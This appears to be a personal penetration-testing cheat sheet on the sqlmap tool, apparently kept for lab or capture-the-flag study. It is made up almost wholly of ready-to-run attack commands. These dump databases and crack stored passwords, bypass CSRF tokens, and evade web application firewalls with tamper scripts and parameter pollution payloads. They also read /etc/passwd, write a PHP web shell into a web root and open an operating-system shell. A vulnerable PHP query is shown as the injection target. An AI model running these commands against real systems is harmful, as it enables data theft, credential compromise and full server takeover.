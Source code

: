 [[sql]]
#####  Copy request as curl and paste to terminal
```shell
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

replace curl with sqlmap or save request to file: 
```shell
sqlmap -r req.txt
```

##### Show current DB as a proof
`--current-db`
##### Scan using parameters in cookies:
```bash
sqlmap -u 'http://94.237.50.99:43765/case3.php'  -H 'Cookie: id=*' --dump --batch
```

#### Tuning
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

prefix and suffix for the query below

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

```
--batch --dump show response of queries

-T flag5 - specify table

--level 1 (1-5)

--risk 1 (1-3)

--code 200 match http code

--titles <title> match page title

--string=success match response string

--text-only strip all tags, keep only text of response

--technique=BEU - SQLi types (boolean, union, etc.)

specify number of colons for union based technique:

--union-cols=5
```

#### Enumeration
* `--banner`
* `--current-user`
* `--is-dba`
* `--tables`
* `-D dbname`
* `-C col1, col`
* `--where="name LIKE 'f%'"`
* `--dump-all --exclude-sysdbs` - enumerate all DBs
* `--schema`
* `--search -T table -C col1` -- search for table which contains word table
* `--passwords` - try to crack passwords

##### CSRF bypass
```shell
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

##### Random value
```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

##### Parameters processing
```shell
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```

##### Proxy
`proxy="socks4://177.39.187.70:33283`
`--check-tor`
##### WAF
[[WAF]]
Whenever we run SQLMap, As part of the initial tests, SQLMap sends a predefined malicious looking payload using a non-existent parameter name (e.g. `?pfov=...`) to test for the existence of a WAF (Web Application Firewall). There will be a substantial change in the response compared to the original in case of any protection between the user and the target. For example, if one of the most popular WAF solutions (ModSecurity) is implemented, there should be a `406 - Not Acceptable` response after such a request.
Detect WAF by signature: https://github.com/stamparm/identYwaf

##### Useragent
```shell
--random-agent
```

##### Tamper Scripts
Modyfing queries to bypass WAF.

`--tamper=between,randomcase`
`--list-tampers`

##### HTTP paramater pollution (HPP)
[[HPP]]
```
id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...
```

##### Files
```shell
--file-read "/etc/passwd"
```

```shell
--file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

#### Upload shell
```shell
--os-shell
```

